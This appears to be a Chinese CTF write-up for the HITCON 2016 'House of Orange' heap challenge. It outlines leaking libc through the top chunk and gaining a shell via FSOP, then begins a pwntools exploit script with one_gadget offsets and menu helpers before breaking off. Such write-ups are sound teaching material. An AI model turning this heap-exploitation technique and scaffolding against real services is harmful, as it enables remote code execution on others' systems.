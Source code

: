 程序不存在free函数，而按照我们的一般思路都是先free一个大于0x7f的chunk，进入unsortedbin，获得libc基地址，之后覆盖hook函数为system函数获得shell。而这道题不能这样做，add和edit函数的使用次数也有限制，这道题的edit函数存在堆溢出，可以考虑使用House of orange，通过修改top chunk为一个比较小的值，然后分配一个很大的chunk，使top chunk进入unsortedbin，从而泄露libc，这样heap基地址也能泄露出来，之后的话，可以使用FSOP，获得shell。
## 过程
先把前面的写好

	# coding=utf-8
	from pwn import  *
	 
	context(endian='little',os='linux',arch='amd64',log_level='debug') #小端序，linux系统，64位架构,debug
	 
	binary = './houseoforange_hitcon_2016'  
	#sh = process(binary) #连接本地程序
	sh = remote('node4.buuoj.cn',26188) #连接远程程序
	elf = ELF(binary)     
	libc = ELF('../../libc-2.23.so--64')  
	
	#libc-2.23.so--64
	one_gadget = [0x45216,0x4526a,0xf02a4,0xf1147]
	one_gadget[0] = 0x45216
	s       = lambda data               :sh.send(data)
	sa      = lambda delim,data         :sh.sendafter(delim, data)
	sl      = lambda data               :sh.sendline(data)
	sla     = lambda delim,data         :sh.sendlineafter(delim, data)
	r       = lambda num=4096           :sh.recv(num)
	ru      = lambda delims  :sh.recvuntil(delims )
	itr     = lambda                    :sh.interactive()
	uu32    = lambda data               :u32(data.ljust(4,'\0'))
	uu64    = lambda data               :u64(data.ljust(8,'\0'))
	leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
	lg=lambda address,data:log.success('%s: '%(address)+hex(data))
	#定义gdb调试函数
	def dbg():
	        gdb.attach(sh)
	        pause()
	def add(size, content, price='2', color='1'):
	    ru("Your choice : ")
	    sl('1')
	    ru("Length of name :")
	    sl(str(size))
	    ru("Name :")
	    sh.send(content)
	    ru("Price of Orange:")
	    sl(str(price))
	    ru("Color of Orange:")    #1-7
	    sl(str(color))
	
	
	def show():
	    ru("Your choice : ")
	    sl('2')
	